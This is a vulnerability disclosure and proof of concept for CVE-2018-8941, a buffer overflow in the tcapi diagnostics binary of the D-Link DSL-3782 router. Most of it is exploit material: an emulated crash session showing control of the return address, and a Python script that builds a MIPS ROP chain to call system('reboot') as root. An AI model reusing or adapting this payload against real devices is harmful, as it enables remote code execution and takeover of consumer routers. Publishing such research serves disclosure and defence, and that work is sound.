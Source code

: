 ## CVE-2018-8941: D-Link DSL-3782 Code execution (Proof of Concept)

Adam Simuntis :: https://twitter.com/adamsimuntis

Mindaugas Slusnys :: https://twitter.com/mislusnys
<br /><br />

The buffer overflow vulnerability was found in the "/userfs/bin/tcapi" binary which is used as a wrapper for the "Diagnostics" functionality in the Web GUI.

An authenticated user can pass a long buffer as an 'Addr' parameter to the '/user/bin/tcapi' binary using 'set Diagnostics_Entry' function and cause the memory corruption.
Furthermore, it is possible to redirect the flow of the program and execute an arbitrary code.

```
adam@expdev ~ $ file userfs/bin/tcapi
userfs/bin/tcapi: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, stripped
```

The vulnerability can be triggered as follows:

```
adam@expdev ~ $ sudo chroot . ./qemu-mips-static userfs/bin/tcapi
set
unset
get
show
commit
save
read
readAll
staticGet
adam@expdev ~ $ sudo chroot . ./qemu-mips-static userfs/bin/tcapi set
set <node_name attr value>

adam@expdev ~ $ sudo chroot . ./qemu-mips-static -g 12345 bin/tcapi set Diagnostics_Entry Addr `perl -e 'print "A"x596 . "BBBB"'`                                                                    ⏎

adam@expdev ~ $ gdb-multiarch
gdb-peda$ set arch mips
The target architecture is assumed to be mips
gdb-peda$ set endian big
The target is assumed to be big endian
gdb-peda$ target remote localhost:12345
Remote debugging using localhost:12345
Warning: not running or target is remote
0x409a7e76 in ?? ()
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
Warning: not running or target is remote
0x42424242 in ?? () 

gdb-peda$ i r
          zero       at       v0       v1       a0       a1       a2       a3
 R0   00000000 f8ffffff fdffffff 00b07176 05000000 98edff76 11000000 00000000
            t0       t1       t2       t3       t4       t5       t6       t7
 R8   906d7976 8c837e76 8c837e76 00907f76 00907f76 00907f76 18000000 205e7d76
            s0       s1       s2       s3       s4       s5       s6       s7
 R16  41414141 41414141 41414141 41414141 05000000 f0064000 20094000 00000000
            t8       t9       k0       k1       gp       sp       s8       ra
 R24  21000000 50697276 00000000 00000000 50e67e76 d8f0ff76 00000000 42424242
            sr       lo       hi      bad    cause       pc
      10000020 5f1a0000 fc010000 42424242 00000000 42424242
           fsr      fir
      00000000 00937300
```

We have a full control over the return address along with a few other registers.


Full ROP chain used to execute 'system("reboot");' as root user can be crafted as follows: 
(ASLR has been disabled for testing purposes.)


```python
import struct

# since we are exploiting through the WEB GUI, binary process mappings (/proc/`pidof boa`/maps) were obtained from '/userfs/bin/boa' binary
libc_base = 0x2b02b000 
# 0x59bb0, offset to system(), big endian
libc_system = struct.pack(">I",libc_base+0x59bb0) 

rop_pad = 'A'*580

# 3rd: Jump to system() from libC, $a0 contains argument
s0 = libc_system

# 2nd: Load stored command from $a1 to $a0 then jump to next gadget at $s0 -> system(cmd)
#.text:00041980                 move    $a0, $a1
#.text:00041984                 li      $a2, 0xC
#.text:00041988                 move    $t9, $s0
#.text:0004198C                 jalr    $t9 ; memset

s1 = struct.pack(">I",libc_base+0x41980)
s2 = 'BBBB'
s3 = 'CCCC'

# 1st: Load command stored on the stack at ($sp+0x168) to $a1 then jump to next gadget at $s1 ^
#.text:0000C654                 addiu   $a1, $sp, 0x168+var_150
#.text:0000C658                 move    $t9, $s1
#.text:0000C65C                 jalr    $t9 ; stat64

ra = struct.pack(">I",libc_base+0xC654)

payload = rop_pad + s0 + s1 + s2 + s3 + ra + "reboot;"*10

```

Successful exploitation will execute 'system("reboot;")' as root user, causig the device to restart.

